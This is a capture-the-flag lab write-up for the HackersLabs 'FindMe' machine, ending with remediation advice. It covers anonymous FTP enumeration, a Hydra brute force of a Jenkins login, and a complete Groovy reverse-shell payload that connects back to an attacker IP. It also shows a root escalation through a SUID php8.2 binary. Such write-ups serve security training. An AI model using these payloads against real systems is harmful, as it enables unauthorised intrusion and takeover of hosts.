








# FindMe - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy (0-Faciles) |
| **IP Address** | `192.168.86.104` |
| **Date** | May 22, 2024 |

---

## 1. Executive Summary

Exploitation of the **FindMe** machine began with information gathering through an anonymous FTP service, where a hint regarding a user's password pattern was discovered. By generating a targeted wordlist and performing a brute-force attack against a **Jenkins** instance running on port 8080, initial access was gained. A reverse shell was executed via the Jenkins Script Console. Privilege escalation was achieved by identifying and abusing a **SUID permission** on the `php8.2` binary to obtain root-level access.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

First, the target IP was identified within the local network, followed by an OS detection and a full port scan.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.104

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.104 -oG allPorts
extractPorts allPorts
nmap -p 21,22,80,8080 -sCV 192.168.86.104 -oN target
```

**Key Findings:**

| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd (Anonymous allowed) |
| 22 | SSH | OpenSSH (Linux) |
| 80 | HTTP | Apache httpd |
| 8080 | HTTP | Jenkins |


### 2.2 Service Enumeration

**Web (Port 80 & 8080):**
The service on port 80 displayed a default Apache page. However, port 8080 hosted a Jenkins login panel.



**FTP (Port 21):**
The FTP service allowed anonymous login. Upon connecting, a file named `ayuda.txt` was found.

```bash
ftp 192.168.86.104
# Login as 'anonymous'
get ayuda.txt
```



The content of `ayuda.txt` indicated that the user `geralt` has a 5-character password starting with 'p' and ending with 'a' (Pattern: `p---a`).



---

## 3. Exploitation (Foothold)

### 3.1 Vulnerability Analysis (Brute Force)

Using the hint from the FTP server, a custom wordlist was generated using `mp64` (Maskprocessor) to match the `p[3 chars]a` pattern.

```bash
mp64 -1 "?l?u" "p?1?1?1a" -o dic.txt
```

With the dictionary ready, a brute-force attack was launched against the Jenkins login form using **Hydra**.

```bash
hydra -l geralt -P dic.txt 192.168.86.104 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f -V
```
**Result:** The valid credentials found were `geralt:panda`.



### 3.2 Initial Access

After logging into Jenkins, the **Script Console** (`/script`) was used to execute arbitrary Groovy code. A reverse shell payload was injected to establish a connection back to the attacker machine.



**Groovy Payload:**
```groovy
String host="192.168.86.93";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After setting up a netcat listener (`nc -lvnp 4444`), a shell as the `jenkins` user was obtained.



---

## 4. Privilege Escalation

### 4.1 Local Enumeration

A TTY shell was spawned and stabilized. A search for SUID binaries was conducted to find escalation vectors.

```bash
# TTY Stabilization
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm

# SUID Search
find / -perm -4000 -ls 2>/dev/null
```

The search revealed that `/usr/bin/php8.2` had the SUID bit set, which is a highly critical misconfiguration.



### 4.2 Privilege Exploitation

According to **GTFOBins**, if the PHP binary has SUID permissions, it can be used to execute system commands with root privileges while maintaining the effective UID.

```bash
/usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```

The `-p` flag ensures the shell respects the SUID privilege, granting immediate root access.

---

## 5. Flags & Evidence

jenkins


root



---

## 6. Remediation & Hardening

- **Disable Anonymous FTP:** Prohibit anonymous access to the FTP server to prevent information leakage.
- **Strong Password Policy:** Ensure users do not use short, predictable passwords that are susceptible to brute-force attacks.
- **Secure Jenkins:** Restrict access to the Jenkins Script Console and implement multi-factor authentication (MFA).
- **Remove Dangerous SUIDs:** Remove the SUID bit from binaries like `php`, `python`, or `perl` unless strictly necessary. Use `chmod u-s /usr/bin/php8.2`.
- **Principle of Least Privilege:** Run the Jenkins service with a dedicated user that has restricted access to the rest of the filesystem.

---

Authored by: [Brutotes]  
[⬅️ Back to Home](../../README.md)